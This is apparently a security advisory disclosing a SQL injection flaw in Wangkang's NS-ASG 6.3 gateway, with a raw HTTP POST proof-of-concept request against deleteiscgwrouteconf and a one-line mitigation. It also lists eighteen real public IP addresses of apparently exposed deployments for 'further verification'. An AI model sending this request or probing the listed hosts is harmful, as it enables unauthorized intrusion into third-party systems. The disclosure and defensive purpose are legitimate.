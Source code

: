 ### Description
Beijing Wangkang Technology Co., Ltd. is a top Cybersecurity vendor of advanced network application layer technologies in China and globally. Their product line includes Internet behavior management, next-generation firewalls, intelligent traffic management, application layer VPNs, and proxy servers.

NS-ASG(Wangkang's application security gateway product) has a SQL injection vulnerability. 

This vulnerability arises when user inputs are not properly validated and sanitized, allowing attackers to embed malicious SQL code within the input fields, which is then executed by the database.

### Affected Components

- NS-ASG 6.3

### Details
URL: /protocol/iscgwtunnel/deleteiscgwrouteconf.php

The variable `$RouteId` is accepted through the variable `messagecontent`. The `$RouteId` is then iterated over and directly inserted into the SQL statement without any validation. This results in an unauthorized SQL injection vulnerability.

<img width="800" alt="image" src="https://github.com/SecureF1sh/findings/assets/171762512/d5e92978-49ed-4fb5-802f-d2eb926a3417">


### Steps to Reproduce

Construct a proof of concept (PoC) as follows to successfully verify that the `a` parameter is vulnerable to SQL injection.
```
POST /protocol/index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

jsoncontent={"protocolType":"deleteiscgwrouteconf","messagecontent":["1*"]}
```
<img width="800" alt="image" src="https://github.com/SecureF1sh/findings/assets/171762512/b86f03f6-fd7b-4b90-8f89-99e896ac3e53">
<img width="800" alt="image" src="https://github.com/SecureF1sh/findings/assets/171762512/4e98d2a3-83b2-4254-ac4e-9bac429c2d89">

To further verify the existence of SQL Injection vulnerabilities, the following URLs can be used:
```https://60.221.241.51/3g/menu.php
https://1.85.53.53/3g/menu.php
https://115.231.254.66:8001/3g/menu.php
https://59.52.76.22/3g/menu.php
https://112.112.9.21/3g/menu.php
https://117.32.131.184:10001/3g/menu.php
https://111.42.83.27/3g/menu.php
https://60.221.241.55/3g/menu.php
https://218.75.78.54:4443/3g/menu.php
https://111.43.67.136:8443/3g/menu.php
https://119.254.106.62/3g/menu.php
https://111.113.12.226/3g/menu.php
http://59.52.76.22:8080/3g/menu.php
https://61.153.74.10/3g/menu.php
https://124.89.86.75/3g/menu.php
https://223.210.14.6:8081/3g/menu.php
https://111.42.83.27:8443/3g/menu.php
https://113.204.33.194:8443/3g/menu.php
```

### Recommended Mitigation
Restrict parameter inputs to the expected values only.
